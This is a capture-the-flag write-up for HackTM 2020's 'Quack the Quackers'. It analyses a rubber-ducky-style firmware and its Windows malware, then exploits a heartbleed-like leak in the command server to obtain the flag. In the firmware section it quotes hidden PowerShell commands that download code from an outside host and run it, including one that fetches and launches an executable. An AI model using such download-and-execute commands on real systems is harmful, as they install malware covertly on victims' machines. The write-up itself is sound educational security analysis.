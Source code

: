 # Quack the Quackers - HackTM 2020 Quals  
## Introduction

Quack the Quackers is a pwn task.

A company was compromised with a device similar to a rubber ducky (Hence the  
duck references.). We are given a memory dump of this device.

The task consists of two parts : the first consists of reverse-engineering the  
memory dump of the device, download the malware and analyze it. The second  
consists of exploiting a vulnerability in the malware's command and control  
(CnC) server.

## Reverse-engineering of the firmware

The device is said to be a `Digispark`. The firmware contains a mention of  
`Digistump` and `Digispark`.

The [official wiki](http://digistump.com/wiki/digispark/tutorials/programming)  
makes several mentions of `AVR` and `Attiny`.

Nobody wants to reverse AVR. Calling `strings` on the firmware only yields a  
very long string that looks like `QUAAAACK`. All the other strings are  
gibberish.

After importing the firmware in Ghidra and wandering around, a particular  
function caught our attention: the function at offset 0x600 performs  
comparisons of a variable with 'Q', 'A', 'C', 'K' and '!'.

The firmware implements a virtual machine. The instruction ribbon being the
long  
quack-like string, and the function at 0x600 executes each instructions.

The `U` and `K` instructions are straightforward: they respectively increment  
and decrement an accumulator register. (the `Y` register)

The `A` instruction is a bit more complicated. It performs a multiplication of  
the accumulator by itself, using a double-and-add algorithm. It effectively  
squares the accumulator.

The `Q` and `!` instructions are only present once : at the beginning and the  
end of the ribbon. It is very likely that they set up.

The `C` instruction is more frequent than `Q` and `!`. Keeping in mind the  
original purpose of the device (i.e. emulate an HID keyboard and send key  
presses), one can make an educated guess that this opcode, by a process of  
elimination, is the one responsible for sending a keystroke.

These hypothesis can be confirmed by writing a quick interpretor for this  
virtual machine (`decode.php`). The keystrokes sent are the following:  
```powershell  
powershell -noprofile -windowstyle hidden -command "iwr
nmdfthufjskdnbfwhejklacms.xyz/-ps|iex"  
```

This is a command that starts an hidden instsance powershell, makes it
download  
a link (`iwr` is an alias to `Invoke-WebRequest`) and execute it (`iex` is an  
alias to `Invoke-Expression`).

The `-ps` file contains a similar payload:  
```powershell  
iwr nmdfthufjskdnbfwhejklacms.xyz/quack.exe -outfile $env:temp/quack.exe  
Start-Process -WindowStyle hidden -FilePath $env:temp/quack.exe  
```

This payload download a `quack.exe` file, and runs it.

## Reverse-engineering of the Windows malware

The second part of this malware is a Windows binary. Importing it in Ghidra  
reveals that this binary connects to a remote server:  
`nmdfthufjskdnbfwhejklacms.xyz` on port 19834 (0x4D7A, obfuscated as `MZ`)

A mix of static analysis and packet-sniffing was used to understand the
network  
protocol used by the malware. It consists of 3 packets:  
1. heartbeat (`@`): sends data, server responds with the same data  
2. list (`L`): sends a list of files in the current directory, server responds  
  with a (random?) filename from this list  
3. file (`f`): sends the first 255 bytes of a file selected by the server (sent  
  after L)

The heartbeat feature looks awfully like TLS's hearbeat feature, which was  
vulnerable to CVE-2014-0160 (dubbed `heartbleed`).

By sending a heartbeat packet of size 255, with no data, and closing the
sending  
end of the socket, the remote server will reply with data that has not been  
cleared.

```  
$ ./heartbleed.php | xxd  
00000000: 00 00 00 00 00 00 00 00 54 20 43 4f 4d 50 41 4e  ........T COMPAN  
00000010: 59 20 53 45 43 52 45 54 3a 20 48 61 63 6b 54 4d  Y SECRET: HackTM  
00000020: 7b 51 75 34 63 6b 5f 6d 33 5f 62 34 63 6b 5f 62  {Qu4ck_m3_b4ck_b  
00000030: 34 62 79 21 7d 48 41 54 2e 20 4c 75 63 61 73 20  4by!}HAT. Lucas  
00000040: 72 65 71 75 65 73 74 73 20 74 68 65 20 48 61 63  requests the Hac  
00000050: 6b 54 4d 7b 51 75 34 63 6b 5f 6d 33 5f 62 34 63  kTM{Qu4ck_m3_b4c  
00000060: 6b 5f 62 34 62 79 21 7d 20 70 61 67 65 2e 20 45  k_b4by!} page. E  
00000070: 76 65 20 28 61 64 6d 69 6e 69 73 74 72 61 74 6f  ve (administrato  
00000080: 72 29 20 77 61 6e 74 73 20 74 6f 20 73 65 74 20  r) wants to set  
00000090: 74 68 65 20 73 65 72 76 65 72 27 73 20 6d 61 73  the server's mas  
000000a0: 74 65 72 20 6b 65 79 20 74 6f 20 48 61 63 6b 54  ter key to HackT  
000000b0: 4d 7b 51 75 34 63 6b 5f 6d 33 5f 62 34 63 6b 5f  M{Qu4ck_m3_b4ck_  
000000c0: 62 34 62 79 21 7d 2e 20 49 73 61 62 65 6c 20 77  b4by!}. Isabel w  
000000d0: 61 6e 74 73 20 70 61 67 65 73 20 61 62 6f 75 74  ants pages about  
000000e0: 20 48 61 63 6b 54 4d 7b 51 75 34 63 6b 5f 6d 33   HackTM{Qu4ck_m3  
000000f0: 5f 62 34 63 6b 5f 62 34 62 79 21 7d 2e 7a 7a     _b4ck_b4by!}.zz  
```

**Flag**: `HackTM{Qu4ck_m3_b4ck_b4by!}`

## Appendices  
### decode.php  
```php  
#!/usr/bin/php  

Original writeup
(https://github.com/TFNS/writeups/blob/master/2020-02-01-HackTM/Quack%20the%20Quackers/README.md).